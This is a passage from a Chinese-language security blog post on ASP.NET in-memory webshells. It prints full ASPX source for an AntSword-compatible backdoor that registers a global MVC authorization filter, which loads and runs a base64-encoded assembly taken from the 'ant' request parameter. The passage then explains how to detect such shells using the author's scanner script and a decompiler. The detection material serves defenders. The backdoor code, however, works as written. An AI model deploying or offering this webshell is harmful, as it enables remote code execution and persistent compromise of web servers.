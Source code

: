 蚁剑连接

```cpp
<%@ Page Language="c#"%>
<%@ Import Namespace="System.Web.Mvc" %>
<script runat="server">
    public class MyAuthFilter : IAuthorizationFilter
    {
        public void OnAuthorization(AuthorizationContext filterContext)
        {
            HttpContext context = HttpContext.Current;
            String Payload = filterContext.HttpContext.Request.Params["ant"];
            if (Payload != null)
            {
                System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
                assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(context);
                context.Response.End();
            }
            Console.WriteLine("auth filter inject");
        }
    }
</script>
<%
    GlobalFilterCollection globalFilterCollection = GlobalFilters.Filters;
    globalFilterCollection.Add(new MyAuthFilter(), -2);
%>
```

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1642236255917-65e3cdf1-0e42-4e3b-85cc-a0d960716fb6.png)

## 检测内存马

本人写了个小脚本 ASP.NET-Memshell-Scanner，可用于各类内存马的检测。

下载项目中的检测脚本 https://github.com/yzddmr6/ASP.NET-Memshell-Scanner/blob/master/aspx-memshell-scanner.aspx，放到网站目录下，浏览器访问。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1642238609914-c8c4e176-07a9-4385-b468-613b42577e08.png)

根据名称可以看到类型为 ASP.shell_filter2_aspx+MyAuthFilter的filter较为可疑。

如果想要实锤怎么操作？

根据CodeBase地址找到编译后的aspx文件，用dnspy等反编译工具打开。

找到对应的具体类shell_filter2_aspx#MyAuthFilter，可以看到其中内容确实为恶意代码。

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1642238724255-c2635881-aa56-454b-b87c-9fea07fa71ef.png)

## 总结

根据本人的研究，aspx必须访问一个真实存在的url时才会触发filter，而非像java一样filter可以用/*直接匹配任意路径。
